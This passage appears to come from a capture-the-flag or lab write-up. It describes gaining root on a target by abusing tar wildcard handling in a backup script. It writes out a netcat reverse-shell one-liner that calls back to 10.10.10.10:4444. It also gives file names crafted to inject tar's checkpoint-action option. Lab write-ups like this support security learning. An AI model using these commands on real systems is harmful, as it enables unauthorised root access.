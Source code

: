 linPEAS didn’t help me this time and I had to read another write up… Apparently we can use the [backup.sh](http://backup.sh) script, as it creates a backup of a directory using tar, and there is a vulnerability of tar we can take advantage of ([https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/))

So, we had to execute this code (with www-data user):

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4444 >/tmp/f" > shell.sh touch "/var/www/html/--checkpoint-action=exec=sh shell.sh" touch "/var/www/html/--checkpoint=1"`

<figure><img src="../../.gitbook/assets/Untitled 50.png" alt=""><figcaption></figcaption></figure>

Open a netcat listener and wait for the root console:

<figure><img src="../../.gitbook/assets/Untitled 51.png" alt=""><figcaption></figcaption></figure>

Aaaand done.
